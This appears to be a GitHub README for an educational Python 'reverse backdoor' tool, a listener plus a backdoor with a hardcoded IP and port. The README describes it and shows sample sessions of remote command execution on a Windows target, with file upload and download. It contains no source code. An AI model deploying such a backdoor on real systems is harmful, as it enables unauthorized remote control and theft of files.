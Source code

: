 # Reverse backdoor

This tool is an example of the concept behind backdoors, written in Python 3.

It consists of two scripts, a listener and the backdoor. 
- **The listener** is run from the hacker's computer and accepts two arguments as input. First is the source-ip which is the ip of the hacker's computer, and a port number.
- **The backdoor** from the target computer. The same ip and port number from the listener are hardcoded in the backdoor.

When the listener is running it is waiting for an incoming connection. After the backdoor is run connection is established enabling the execution of system commands.

Custom commands that are implemented are cd, download, upload, and exit.

Limitation: not all system commands that consist of multiple arguments can be executed.

**Development environment:**
- Kali Linux 64-bit
- Kernel 5.4.0-kali3-amd64
- Python 3.7.6

------------

## Example of how to use

1. run the listener
```bash
python3 listener.py
[+] Please enter source-ip and port
Enter source-ip: 10.0.2.15
Enter port number: 4443
[+] Waiting for incoming connections...
```

2. The backdoor is executed, and the listener has now established connection and can execute system commands
```bash
[+] Connection established with... ('10.0.2.21', 49716)
>> [enter command here]
```

4. Enter system command
```bash
>> tree /f
Folder PATH listing for volume Windows 10
Volume serial number is B4A6-FEC6
C:.
    flower.jpg
	flower2.jpg
	reverse_backdoor.py
	sample.txt
	
No subfolders exist
```
###  Example result
![Backdoor result](Images/reverse_backdoor_example.png "Backdoor result")

------------